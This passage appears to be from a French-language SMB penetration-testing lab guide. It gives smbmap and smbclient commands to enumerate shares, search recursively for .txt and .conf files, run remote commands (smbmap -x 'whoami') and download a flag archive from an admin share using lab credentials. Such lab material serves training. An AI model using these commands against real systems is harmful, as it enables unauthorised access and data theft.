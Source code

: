 #### Options avancées smbmap
```bash
# Recherche de fichiers spécifiques
smbmap -H <target> -u admin -p password1 -R --depth 5 -A '*.txt'
smbmap -H <target> -u admin -p password1 -R -q -A '*.conf'

# Exécution de commandes
smbmap -H <target> -u admin -p password1 -x 'whoami'
```

### Avec smbclient

#### Test de navigabilité (comme dans le lab)
```bash
# Liste des partages
smbclient -L <target> -U jane
# Password: abc123

# Test d'accès à un partage spécifique
smbclient //<target>/jane -U jane
# Password: abc123

# Navigation dans les partages
smbclient //<target>/admin -U admin
# Password: password1
```

#### Commandes smbclient essentielles
```bash
# Dans une session smbclient
ls                     # Lister les fichiers
cd directory           # Changer de répertoire
get filename           # Télécharger un fichier
mget *.txt            # Télécharger plusieurs fichiers
put filename          # Uploader un fichier
mkdir newdir          # Créer un répertoire
rmdir directory       # Supprimer un répertoire
del filename          # Supprimer un fichier
```

---

## Phase 5: Exploitation avancée et collecte de données

### Collecte de flags/données (Méthode du lab)

#### Navigation et extraction
```bash
# Connexion au partage admin (comme dans le lab)
smbclient //<target>/admin -U admin
# Password: password1

# Navigation et téléchargement
ls
cd hidden
ls
get flag.tar.gz
exit

# Extraction locale
tar -xf flag.tar.gz
cat flag
```
